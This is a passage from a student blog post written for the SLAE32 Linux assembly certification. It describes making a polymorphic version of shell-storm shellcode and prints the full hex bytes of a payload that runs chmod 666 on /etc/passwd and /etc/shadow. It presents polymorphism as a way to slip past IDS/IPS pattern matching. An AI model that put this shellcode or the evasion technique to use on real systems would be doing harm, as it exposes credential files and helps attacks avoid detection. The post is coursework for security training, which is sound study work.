 Title: SLAE32 - Assignment 6.1
Date: 2022-06-04T14:00:46.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=3">https://www.pentesteracademy.com/course?id=3</a></p><p>Student ID: PA-30398</p><h2 id="foreword">Foreword</h2><p>I chose the following shellcodes:</p>
<ol>
<li><a href="http://shell-storm.org/shellcode/files/shellcode-812.php">Linux/x86 - chmod 666 /etc/passwd &amp; /etc/shadow - 57 bytes</a></li>
<li><a href="http://shell-storm.org/shellcode/files/shellcode-222.php">Linux/x86 - setuid(0) setgid(0) execve(echo 0 &gt; /proc/sys/kernel/randomize_va_space) - 79 bytes</a></li>
<li><a href="http://shell-storm.org/shellcode/files/shellcode-825.php">Linux/x86 - iptables --flush - 43 bytes</a></li>
</ol>
<p>In this part I'll create a polymorphic version of the 1st shellcode.</p>
<h2 id="source-code">Source Code</h2><p>The files for this part of the assignment are the following:</p>
<ul>
<li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/original_shellcode.nasm">original_shellcode.nasm</a>, contains the original shellcode of which I wrote a polymorphic version</li>
<li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/polymorphic_stable.nasm">polymorphic_stable.nasm</a>, contains the polymorphic version of the shellcode, but with a few more checks in order to avoid segmentation faults</li>
<li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/polymorphic_tiny.nasm">polymorphic_tiny.nasm</a></li>
<li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/test_polymorphic_stable.c">test_polymorphic_stable.c</a>, a C program for testing the polymorphic shellcode (<code>polymorphic_stable.nasm</code>)</li>
</ul>
<h2 id="definitions">Definitions</h2><blockquote>What is <strong>Polymorphism</strong>?</blockquote><p>Polymorphism refers to the ability of something (e.g. shellcode, malwares) to mutate, while keeping intact the original code.</p><p>For example, to clear a register you can use the following instruction:</p><pre><code class="language-nasm">xor eax, eax
</code></pre><p>However, there are many more possibilities, like these:</p><pre><code class="language-nasm">; mov-xor
mov EAX, 0xffffffff
xor EAX, 0xffffffff

; push-dec-pop
push 0x1
pop EAX
dec EAX

; mov-sub
mov EAX, 0xaabbccdd
sub EAX, 0xaabbccdd
</code></pre><p>In the case of shellcodes and malwares, the objective is to hide their presence from Security Protections that use <strong>Pattern Matching</strong>, such as <code>IDS</code> and <code>IPS</code> systems.</p><h2 id="analysis">Analysis</h2><p>First, here's the original shellcode in <strong>Intel syntax</strong>, since the shellcode on the original page uses <strong>AT&amp;T syntax</strong>.</p><pre><code class="language-bash">echo -n "\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80" &gt; shellcode.bin
